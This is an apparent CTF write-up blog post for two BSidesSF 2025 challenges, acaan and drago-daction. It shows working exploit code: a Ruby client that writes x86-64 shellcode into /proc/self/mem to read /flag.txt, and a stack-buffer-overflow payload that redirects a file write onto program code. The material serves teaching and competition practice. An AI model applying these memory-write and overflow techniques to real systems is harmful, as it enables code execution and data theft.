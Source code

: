 ```yaml
---
title: 'BSidesSF 2025: accan and drago-daction: pwn your own memory'
author: ron
layout: post
categories:
- bsidessf-2025
- ctfs
permalink: "/2025/bsidessf-2025-accan-and-drago-daction-pwn-your-own-memory"
date: '2025-04-27T15:59:10-07:00'
comments_id: '114456979202880249'

---
```


If you read [my `bug-me` write-up](/2025/bsidessf-2025-bug-me-hard-reversing-challenge-) or my [Linux process injection](https://www.labs.greynoise.io/grimoire/2025-01-28-process-injection/) blog, you may be under the impression that I've been obsessed with the ability of Linux processes to write to their own memory.

These challenges are no exception!

You can download source and the challenge (including solutions) [here (acaan)](https://github.com/BSidesSF/ctf-2025-release/tree/main/acaan) and [here (drago-daction)](https://github.com/BSidesSF/ctf-2025-release/tree/main/drago-daction).

<!--more-->

## acaan

I actually wrote `drago-daction` first, but decided I wanted a more training-wheels-y version of it so I wrote `acaan`, which is much more direct.

For what it's worth, `acaan` stands for "any card at any number", which is a plot in magic (card tricks). Volunteer names any card, and any number (between 1 and 52), and lo and behold! The card is at that number. And the audience is amazed - once you explain that it's a Big Deal.

When you connect to `acaan`, it prompts you for a file, and offset, and new data to write. Then it does what it says - it writes that data to that offset in that file:

```
$ nc acaan-d715d4a7.challenges.bsidessf.net 4113
Welcome to ACAAN (Any Computerfile At Any Number)!
Filename?
/etc/passwd
Offset into the file (either decimal, or 0xhex)?
10
Data to replace it with? (Binary is fine - end with "\n.\n" or by closing the socket)
hello
.
Replacing 5 bytes from file /etc/passwd at offset 10! Hope this is everything you were hoping for!
Couldn't open /etc/passwd!
```

I also provided the source so you can see there are no tricks - it's exactly what it sounds like.

The challenge is solved by writing to read-only memory by editing `/proc/self/mem`, my technique du jour:

```
s = TCPSocket.new(HOST, PORT)
puts s.readpartial(1024)
s.puts('/proc/self/mem')
sleep(0.5)
puts s.readpartial(1024)
s.puts(TARGET_ADDRESS.to_i)
sleep(0.5)
puts s.readpartial(1024)
s.puts(File.read(File.join(__dir__, 'shellcode.bin')))
s.puts('.')
s.puts('.')
sleep(0.5)
check_flag(s.read(1024), terminate: true, partial: true)
```

The shellcode is pretty standard `open` / `read` / `write`, written by ai and then fixed to actually work:

```
bits 64
; Open the file
jmp filename
top:
  pop rdi
  xor rsi, rsi             ; Flags = 0 (O_RDONLY)
  xor rdx, rdx             ; Mode = 0
  mov rax, 2               ; Syscall for open
  syscall
  mov rdi, rax

  ; Read from the file
  sub rsp, 0x100           ; Allocate space on the stack for the buffer
  lea rsi, [rsp]           ; Load the buffer address into rsi
  mov rdx, 0x100           ; Read up to 256 bytes
  mov rax, 0               ; Syscall for read
  syscall

  ; Write to stdout
  mov rdi, 1               ; Set fd to stdout
  mov rdx, rax             ; Set the number of bytes to write
  mov rax, 1               ; Syscall for write
  syscall

  ; Exit
  xor rdi, rdi             ; Exit code 0
  mov rax, 60              ; Syscall for exit
  syscall
filename:
  call top
  db "/flag.txt", 0        ; Null-terminated filename
```

## `drago-daction`

Yes, I know that `draco-daction` would have been a better name! I changed the name once and didn't want to change it again. :)

Although this has a similar payoff to `acaan`, the path there is much different: this application is vulnerable to a stack buffer overflow which lets you change the filename and offset.

The premise of the challenge is redacting information. The first time it redacts a string, you can overwrite the stack data. The second time, it opens the wrong file and writes to the wrong offset. Once you've reached that point, you're back to `acaan`, only much more annoying.

### Solution

First, we create a file with two replaceable strings:

```ruby
# Create the dragonfile
file = File.new('/tmp/dragonfile.txt', 'w')

# This requires two lines: one to overwrite the pointers, and one to write to
# memory
file.puts("dragon#{ 'B' * 100 }")
file.puts("dragon#{ 'B' * 100 }")
file.close
```

Then we create our payload, which replaces "dragon" with the payload, which includes an overflow:

```ruby
SHELLCODE = File.read(shellcode_file.to_path).force_encoding('ASCII-8bit').ljust(PADDING, 'A')

# ...

payload = [
  "dragon\n",
  "#{ SHELLCODE }#{ TARGET_ADDRESS_STR }/proc/self/mem\0\n",
].join()
```

We replace some random code at the end of the binary with our shellcode:

```
# Find a good place to target - we're choosing this line:
# 401751:       e8 2a f9 ff ff          call   401080 <__stack_chk_fail@plt>
unless `objdump -D #{ EXE } | grep 'call.*__stack_chk_fail@plt' | tail -n1` =~ /^ *([0-9a-fA-F]*)/
  puts "Couldn't find __stack_chk_fail call!"
  exit 1
end
TARGET_ADDRESS = Regexp.last_match(1).to_i(16)
TARGET_ADDRESS_STR = [TARGET_ADDRESS - ADJUST].pack('V')
```

And that's it!

Honestly, it was a bit of a pain to solve, hopefully folks enjoy it!
